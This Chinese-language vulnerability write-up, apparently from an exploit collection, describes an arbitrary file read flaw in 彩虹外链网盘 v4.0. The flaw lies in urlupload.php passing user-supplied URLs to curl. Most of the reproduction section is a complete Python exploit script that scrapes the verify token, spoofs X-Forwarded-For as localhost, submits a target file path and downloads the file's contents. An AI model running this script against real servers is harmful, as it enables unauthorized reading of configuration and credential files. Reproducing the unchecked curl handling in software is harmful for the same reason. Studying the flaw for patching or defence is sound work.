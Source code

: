 彩虹外链网盘 v4.0 任意文件读取漏洞（一）
========================================

一、漏洞简介
------------

如果开启了开启open\_basedir函数，则无法利用此漏洞

二、漏洞影响
------------

彩虹外链网盘 v4.0

三、复现过程
------------

回到一开始觉得可能存在文件读取的地方
在urlupload.php中接收到url传到curl\_download函数

![5.png](resource/彩虹外链网盘v4.0任意文件读取漏洞(一)/media/rId24.png){width="5.833333333333333in"
height="1.9474212598425198in"}

在main.func.php中看到curl\_download函数其实就是调用curl\_init讲道理是可以文件读取的

![6.png](resource/彩虹外链网盘v4.0任意文件读取漏洞(一)/media/rId25.png){width="5.833333333333333in"
height="2.7040496500437445in"}

文件上传后保存,需要下载查看内容,而且有verify验证,于是编写python脚本

    import requests
    import re
    import sys

    url = sys.argv[1]
    file = sys.argv[2]

    headers={"X-Forwarded-For":"127.0.0.1"}
    requests = requests.session()

    html = requests.get(url+"/urlupload.php").text
    verify = re.findall("name=\"verify\" value=\"(.*?)\"",html)[0]

    data={"url":file,"name":"1231421312.torrent","pwd":"Aa1345123","verify":verify}
    html = requests.post(url+"urlupload.php?a=1",data=data,headers=headers).text

    try:
        down_url = re.findall("<a href=\"(down.php.*?)\"",html)[0]
        result = requests.get(url+down_url).text
    except:
        result = "error"
    print(result)

![7.png](resource/彩虹外链网盘v4.0任意文件读取漏洞(一)/media/rId26.png){width="5.833333333333333in"
height="0.877580927384077in"}
